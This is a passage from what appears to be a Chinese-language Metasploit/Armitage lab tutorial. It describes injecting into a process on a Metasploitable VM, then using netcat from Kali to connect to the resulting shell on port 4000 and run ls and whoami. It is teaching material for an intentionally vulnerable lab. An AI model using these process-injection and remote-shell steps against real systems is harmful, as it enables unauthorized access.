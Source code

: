 ![](img/1307c16c-8531-4399-974a-a4947eedbbd8.png)Armitage 全屏你可能需要尝试几个不同的进程 ID，直到成功感染。如果最坏的情况发生了，请以 `msfadmin` 用户身份登录 Metasploitable 虚拟机，然后附加到该 bash 进程。

1.  现在，从你的 Kali Linux 机器打开一个终端会话，并输入以下命令：

```
cd <enter>
nc 192.168.56.101 4000 <enter>
ls <enter>
whoami <enter>
```

